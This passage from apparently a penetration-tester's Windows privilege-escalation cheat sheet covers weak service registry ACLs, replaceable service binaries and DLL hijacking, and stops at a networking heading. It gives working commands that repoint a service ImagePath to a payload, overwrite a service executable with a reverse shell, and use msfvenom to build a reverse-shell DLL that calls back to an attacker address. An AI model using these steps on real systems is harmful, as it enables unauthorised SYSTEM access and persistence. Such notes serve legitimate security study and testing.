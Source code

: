 > The Windows registry stores entries for each service. Since registry entries can have ACLs(access control lists), if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly. If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then we can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then our program will execute, allowing the us to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

Check for permission on registry

```powershell
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

```powershell
reg add <weak_registry> /v ImagePath /t REG_EXPAND_SZ /d C:\Cas\shell.exe /f
```

**Insecure Service Executables**

> If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable

Check for user/group permission on executable file

```powershell
.\accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

```powershell
copy /Y shell.exe "C:\Program Files\File Permissions Service\<insecure-service>"
```

**DLL Hijacking**

> Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll. Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path)

```powershell
Find missing Dlls inside system: [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
```

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<my-ip> LPORT=80 -f dll -o reverse.dll
```

### Networking Information

> An attacker may use a compromised target to pivot, or move between connected networks. This will amplify network visibility and allow the attacker to target hosts not directly visible from the original attack machine. We can also investigate port bindings to see if a running service is only available on a loopback address, rather than on a routable one. Investigating a privileged program or service listening on the loopback interface could expand our attack surface and increase our probability of a privilege escalation attack.

#### Full TCP/IP configuration
